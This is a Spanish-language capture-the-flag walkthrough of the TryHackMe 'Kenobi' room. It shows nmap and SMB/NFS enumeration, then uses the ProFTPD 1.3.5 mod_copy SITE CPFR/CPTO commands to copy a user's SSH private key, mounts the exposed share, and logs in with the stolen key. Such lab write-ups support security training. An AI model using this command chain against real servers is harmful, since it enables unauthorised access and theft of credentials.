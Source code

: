 https://tryhackme.com/room/kenobi

TODAS LAS IPS QUE SE VEN AQUÍ CAMBIAN...

## Checar los puertos abiertos y checar los samba shares

- nmap 10.10.56.240 -vvv   //para ver los puertos abiertos del servidor
- samba se usa para acceder a recursos, printers, etc en internet o intranet
- se puede usar un script de nmap para enumerar los samba shares
- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.56.240
- se encuentran 3 ( IPC Service, hidden y printer) con acceso de read/write, read/write, none
![image](https://user-images.githubusercontent.com/44788583/149610228-bdc21841-c9af-4b5c-9aa3-729ca0b6c9f3.png)

- Se puede ver que con el share de anonymous el usuario es kenobi

----

## Enumeración de shares y descarga de archivo por smb

- smbclient //10.10.236.140/anonymous
- ls (para ver que hay ahí y encontramos el archivo log.txt)
- smbget -R smb://10.10.236.140/anonymous para bajar el contenido directo
![image](https://user-images.githubusercontent.com/44788583/149610329-98ccf2c5-20c9-49c7-b0d7-2c165d01b6c3.png)
- Si no aplicamos el comando de smbget, entonces hacemos get log.txt
![image](https://user-images.githubusercontent.com/44788583/149610357-e2f22eb5-c2ba-4a24-91bc-ed0fd4bffd89.png)

- en nuestra máquina, podemos ls para ver si está el archivo, debe descargarse en el current working directory cat log.txt para ver que trae el log file
![image](https://user-images.githubusercontent.com/44788583/148824837-9c9a2abc-9706-41e5-aa1f-d50df520dafb.png)

- Se puede ver que es un archivo de samba log y luego dice que es un archivo de configuración de pro FTPD
![image](https://user-images.githubusercontent.com/44788583/149611227-4ce8a3fd-00d5-4b00-97b7-20f880e2f1f7.png)

----

## Enumeración de RPC Bind

- RPC Bind lo que hace es que convierte las remote procedure calls (RPCs) en direcciones universales
- se enumeran con el siguiente comando de nmap: nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.187.207 (el puerto 11 lo pudimos obtener del primer escaneo de nmap)
- vemos el mount var
![image](https://user-images.githubusercontent.com/44788583/149612257-c9827262-a8e8-4e2e-a9a1-76e2e4243d59.png)


## Ganando acceso inicial con ProFTPD

- Del escaneo inicial con nmap podemos ver que la versión que corre de ProFTPD es 1.3.5
- Ahora correremos un escaneo de exploits para esa versión de ProFTPD
![image](https://user-images.githubusercontent.com/44788583/149611745-3d8e585d-b2d3-4b25-8368-438ed04a7ce0.png)

- Se encuentran 3 exploits con el modulo de copy pero si se busca el 1.3.x hay otro, entonces son 4

- En los módulos de copy se dice que se usa el SITE CPFR y SITE CPTO, entonces los podemos usar desde el exploit o de manera manual porque sabemos que este servidor es vulnerable y esos comandos se pueden ejecutar

----

## Moviendo la llave privada de kenobi

- SITE CPFR /home/kenobi/.ssh/id_rsa
- SITE CPTO /var/tmp/id_rsa (Este último es porque le tienes que agregar un archivo como parametro, por es el último de id_rsa) 
- OJO, dentro de la máquina víctima, lo copiamos hacia la carpeta /var porque a esa sí tenemos acceso, está dentro de la carpeta www
![image](https://user-images.githubusercontent.com/44788583/149612421-9bfb6dec-0a7e-476d-bdd8-d14a3b133217.png)

----

## Montando volumen 

- Lo primero que se debe hacer es una carpeta donde montaremos el volumen copiado. La recomendación es crearla adentro de mnt que es donde usualmente se montan los volúmenes nuevos
- sudo mkdir /mnt/kenobi
![image](https://user-images.githubusercontent.com/44788583/149612680-fe046e3b-c937-44da-b42b-54777b4d2374.png)

- checamos que la carpeta exista con ls /mnt
- luego monntamos el volumen con mount 10.10.197.207:/var /tmp/kenobi (la ip de la máquina vulnerada y la carpeta de la misma, después como segundo parámetro en dónde la estamos montando en nuestra máquina
![image](https://user-images.githubusercontent.com/44788583/149612857-c0a24a63-bf3f-4f77-ad79-bdbb78af58e5.png)

- ls -al para checar los permisos que tenemos 
![image](https://user-images.githubusercontent.com/44788583/149612887-af767f3c-7aea-4d73-9d21-dc0b86767a3b.png)

## Usando la llave copiada para acceder al usuario kenobi 
- checamos la carpeta tmp en el folder donde se montó el volumen con ls /mnt/kenobi/tmp
![image](https://user-images.githubusercontent.com/44788583/149613004-3c21a7c3-4325-4b9c-85f8-efd917eca065.png)
- copiamos el archivo al current working directory con sudo cp /mnt/kenobi/tmp/id_rsa .   (el puntito es para que se copie donde estamos, en el current working directory)
![image](https://user-images.githubusercontent.com/44788583/149613078-708cb6a9-043f-41b5-98cf-d211d883614d.png)
- cambiamos los permisos   para que sólo nosotros podamos modificar y no nos diga warning
- sudo chmod 0400 id_rsa

----

## Ingresando como kenobi en ssh por id_rsa
- se pone la el protocolo, el archivo de llave privada, el usuario y la ip
- sudo ssh -i id_rsa kenobi@10.10.187.207
![image](https://user-images.githubusercontent.com/44788583/149613275-47f1cca1-35cd-4e91-acef-5d70395151bb.png)
tamos dentro!
- Buscamos la flag que nos dicen que busquemos en la carpeta kenobi 
![image](https://user-images.githubusercontent.com/44788583/149613327-bcbada8f-468f-4027-94d3-5e0e185798a7.png)
